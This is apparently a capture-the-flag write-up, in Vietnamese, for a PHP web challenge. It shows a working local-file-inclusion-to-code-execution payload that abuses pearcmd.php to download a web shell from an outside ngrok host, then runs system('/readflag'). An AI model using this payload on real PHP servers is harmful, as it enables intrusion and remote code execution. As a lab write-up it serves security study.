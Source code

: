 # Solution

Từ gợi ý trong source code và từ phpinfo() ta thấy `register_argc_argv: On`
đồng thời kết hợp với [pearcmd LFI2RCE](https://github.com/w181496/Web-CTF-Cheatsheet#pear) để khai thác.

payload:

```
/?+install+--force+--installroot+/tmp/wtf+https://1fb5-101-99-36-202.ap.ngrok.io/shell.php+?&page=../../../../usr/local/lib/php/pearcmd.php
```

sau đó: `0=system('/readflag');`


**SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}**